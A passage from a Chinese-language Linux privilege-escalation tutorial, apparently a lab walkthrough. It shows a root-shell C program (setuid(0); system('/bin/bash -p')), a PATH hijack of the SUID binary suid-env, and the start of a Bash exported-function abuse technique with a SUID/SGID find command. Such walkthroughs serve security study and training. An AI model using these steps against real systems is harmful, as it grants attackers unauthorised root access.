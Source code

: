 ![image-20210701172644492](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8253f0f255bba9deeab526f166e113b6a4aa7b77.png)

这表明 系统 功能正用于执行 服务 计划。

#### 4.创建 service.c具有 以下 内容：

```php
int main() 
{ 
setuid(0); 
system("/bin/bash -p"); 
}
```

![image-20210701172832305](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e80ffa7172d24bfd91bae2afcf1756ed76f571f8.png)

#### 5.编译service.c文件：

```php
gcc -o service service.c
```

#### 6.将当前目录（或可执行新服务的位置）预编到PATH 变量，并执行用于根壳的 SUID 文件：

```php
PATH=.:$PATH /usr/local/bin/suid-env
```

![image-20210701172915956](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-055d4ac51aaff1c1b6aa2e86a4c6fe6a930b2074.png)

滥用外壳功能
------

### 前言

在某些外壳中(特别是 Bash &lt;4.2-048)，可以使用绝对路径名称定义用户功能。  
这些功能是可以导出，用来方便子处理程序能够访问它们，并且这些函数可以优先于实际可执行的呼叫。

### 实操

#### 1.在目标上查找SUID/SGID 文件 ：

```php
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null 
```

![image-20210701173043064](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0b180d7bd55e79a301e7d36bd8bd2e55043a74ff.png)

```php
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
```

`suid-env`文件在root权限下执行

#### 2.在SUID文件上运行字符串：
